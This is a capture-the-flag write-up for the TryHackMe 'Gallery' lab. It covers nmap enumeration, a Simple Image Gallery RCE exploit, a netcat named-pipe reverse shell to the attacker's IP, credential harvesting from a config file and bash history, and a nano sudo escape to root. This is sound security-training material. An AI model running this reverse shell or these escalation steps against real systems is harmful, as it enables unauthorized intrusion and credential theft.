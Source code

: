 ```yaml
---
title: "Gallery TryHackMe"
date: "02-15-2022"
author: "Reda BELHAJ"
summary: "The gallery is not very well secured. Designed and created by @Mikaa !"
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/Gallery/bg.png"
---
```

Let’s take a look at the [Gallery CTF](https://tryhackme.com/room/gallery666) on TryHackMe Created by **@Mikaa**.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.22.177 -sC -sS
```
The “Nmap Output” displayed `2` service running under port 80 and 8080.
![Nmap](/images/Gallery/nmap.JPG)

And I've decided to search the http-title of the web application running in 8080: **Simple Image Gallery** and it come out as a *Content management system*.

## Exploiting
Now let’s look for exploits that we can use.

```
searchsploit Simple Image Gallery
```
![SearchSploit](/images/Gallery/searchsploit.JPG)
The Output displayed that there's a **RCE**: Remote Code Execution and a **SQLi**: SQL Injection. And I've decide to go with the RCE vulnerability:
![Exploit](/images/Gallery/exploit.JPG)

So it successfully did a RCE and uploaded a shell on the host. As we open the link that we got, we did see a result of the RCE and I tried **ls** command on it:
![LsAll](/images/Gallery/lsall.JPG)

### Reverse Shell
I set up my netcat listener on port 4444 and I fired up Burp and sent a POST request with the following encoded payload using URL encoding:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.174.180 4444 >/tmp/f
```

**Great!** I received a reverse connection on my port 4444. And I've upgraded the shell with pty module: 
![shellOpen](/images/Gallery/shellOpen.JPG)

## Admin’s Password Hash
Now we're in the machine and I decided to take a look at the `initialize.php` file which gave me the username and the password for accessing the database:
![initial](/images/Gallery/initial.JPG)

Then I tried to connect to the database using the credentials of last file. And I found the **Admin’s Password Hash**:
![insideDB](/images/Gallery/insideDB.JPG)

## User Flag
Inside the home directory of the mike user. I notice a file called `user.txt` but I didn't have the rights to access it. 
![premDenied](/images/Gallery/premDenied.JPG)

As I was exploring I found a directory named `backups` and in it there was a folder with the name `mike_home_backup`. And inside it I looked for the *bash_history* file:
![bashHistory](/images/Gallery/bashHistory.JPG)

**Boom** we found mike's password.

```
su mike
```

Then I found the user.txt file:

```
THM******************
```

## Root Flag
Now it’s time to escalate our privileges and get the root flag. 
![sudoL](/images/Gallery/sudoL.JPG)

So as a result of `sudo -l` we found that there's a file called `/opt/rootkit.sh` which mike was allowed to run as sudo. And it ask for the user input and with the use of the switch cases it delivers:

Lastely I searched for nano on [GTFObins](https://gtfobins.github.io/) and I found this:

```
sudo /bin/bash /opt/rootkit.sh
^R^X
reset; sh 1>&0 2>&0
```

Running the file using sudo, entering the read command to open nano and following the steps of GTFObins helps me escalate to root:
![privEscDone](/images/Gallery/privEscDone.JPG)

Then I found the root.txt file:

```
THM******************
```
